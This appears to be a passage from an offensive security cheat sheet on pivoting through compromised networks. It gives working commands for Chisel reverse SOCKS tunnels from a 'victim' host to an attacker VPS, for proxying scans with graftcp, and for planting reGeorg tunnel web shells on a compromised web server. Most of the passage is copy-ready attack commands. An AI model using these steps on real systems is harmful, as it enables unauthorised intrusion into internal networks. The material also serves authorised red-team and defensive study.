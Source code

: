 > A flexible tool for redirecting a given program's TCP traffic to SOCKS5 or HTTP proxy.

:warning: Same as proxychains, with another mechanism to "proxify" which allow Go applications.

```ps1
# https://github.com/hmgle/graftcp

# Create a SOCKS5, using Chisel or another tool and forward it through SSH
(attacker) $ ssh -fNT -i /tmp/id_rsa -L 1080:127.0.0.1:1080 root@IP_VPS
(vps) $ ./chisel server --tls-key ./key.pem --tls-cert ./cert.pem -p 8443 -reverse 
(victim 1) $ ./chisel client --tls-skip-verify https://IP_VPS:8443 R:socks 

# Run graftcp and specify the SOCKS5
(attacker) $ graftcp-local -listen :2233 -logfile /tmp/toto -loglevel 6 -socks5 127.0.0.1:1080
(attacker) $ graftcp ./nuclei -u http://172.16.1.24
```

Simple configuration file for graftcp

```py
# https://github.com/hmgle/graftcp/blob/master/local/example-graftcp-local.conf
## Listen address (default ":2233")
listen = :2233
loglevel = 1

## SOCKS5 address (default "127.0.0.1:1080")
socks5 = 127.0.0.1:1080
# socks5_username = SOCKS5USERNAME
# socks5_password = SOCKS5PASSWORD

## Set the mode for select a proxy (default "auto")
select_proxy_mode = auto
```


## Web SOCKS - reGeorg

[reGeorg](https://github.com/sensepost/reGeorg), the successor to reDuh, pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn.

Drop one of the following files on the server:

- tunnel.ashx
- tunnel.aspx
- tunnel.js
- tunnel.jsp
- tunnel.nosocket.php
- tunnel.php
- tunnel.tomcat.5.jsp

```python
python reGeorgSocksProxy.py -p 8080 -u http://compromised.host/shell.jsp # the socks proxy will be on port 8080

optional arguments:
  -h, --help           show this help message and exit
  -l , --listen-on     The default listening address
  -p , --listen-port   The default listening port
  -r , --read-buff     Local read buffer, max data to be sent per POST
  -u , --url           The url containing the tunnel script
  -v , --verbose       Verbose output[INFO|DEBUG]
```
